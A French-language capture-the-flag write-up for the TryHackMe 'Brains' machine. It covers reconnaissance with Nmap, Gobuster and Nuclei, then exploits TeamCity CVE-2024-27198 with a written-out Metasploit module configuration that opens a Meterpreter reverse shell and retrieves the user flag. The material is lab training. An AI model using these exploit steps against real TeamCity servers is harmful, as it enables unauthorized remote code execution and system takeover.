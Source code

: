 # 📌 Write-Up : Machine Brains - TryHackMe 🧠

## 📝 Informations Générales

- **Nom de la machine** : Brains
- **Difficulté** : Moyenne
- **Type d'attaque** : Exploitation Web & Prise de contrôle via RCE (TeamCity)
- **Adresse IP** : `10.10.165.8`
- **Outils** : Nmap, Metasploit, Nuclei, Gobuster

---

## 🔍 Scan et Reconnaissance

### 📌 Scan Nmap

Commande utilisée :
```bash
sudo nmap -sS -O -Pn 10.10.165.8
```
📌 **Résultats** :
- **IP cible** : `10.10.165.8`
- **Ports ouverts** :
  - `22/tcp` → OpenSSH 8.2p1 (Ubuntu 4ubuntu0.11)
  - `80/tcp` → Apache 2.4.41 (Ubuntu)
  - `50000/tcp` → Apache Tomcat (TeamCity)
- **OS détecté** : Linux 4.15

### 📌 Analyse Web (Port 80)

Accès au site : `http://10.10.165.8/`

- Page en **maintenance**.
- Utilisation de **Gobuster** :
  ```bash
  gobuster dir -u http://10.10.165.8 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
  ```
  📌 **Résultat intéressant** : `/index.php` trouvé.

### 📌 Analyse du Port 50000 (TeamCity)

Accès à l'interface TeamCity :
L'accès à l'interface se fait grâce aux différents indices trouvés dans le nmap.

```
http://10.10.165.8:50000/login.html
```
📌 **Détails** :
- Champs disponibles : **Username, Password, Reset Password, Login**
- **Version TeamCity** : 2023.11.3 (build 147512)

### 📌 Recherche de Vulnérabilités

J'ai utilisé **Nuclei** pour scanner les vulnérabilités connues :
```bash
nuclei -u http://10.10.165.8:50000 -t cves/
```
📌 **Résultat intéressant** :
- **CVE-2024-27198** (Remote Code Execution sur TeamCity)

---

## 🔒 Exploitation et Accès Initial

### 📌 Exploitation de CVE-2024-27198

J'ai utilisé **Metasploit** pour exploiter la vulnérabilité et obtenir un shell.

📌 **Commande utilisée** :
```bash
use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198
set rhosts 10.10.165.8
set lhost <ton_ip>
set lport 66
set rport 50000
check
run
```
📌 **Résultat** :
- **Le serveur est vulnérable** (JetBrains TeamCity 2023.11.3 - Linux).
- **Exploitation réussie avec un reverse shell Meterpreter.**
- **L'utilisateur obtenu est `ubuntu`.**

### 📌 Récupération du fichier `user.txt`

Une fois dans le shell **Meterpreter**, j'ai navigué vers le dossier utilisateur pour localiser le flag :
```bash
cd /home/ubuntu
ls
cat user.txt
```
📌 **Résultat** : Le flag **user.txt** a été trouvé et récupéré avec succès.

---

## 🚀 Prochaines Étapes la partie 2 avec Splunk

Pour cette partie 2, je vous suggère de tenter de l'effectuer seul, c'est un travail de 'forensic' assez basic et amusant.

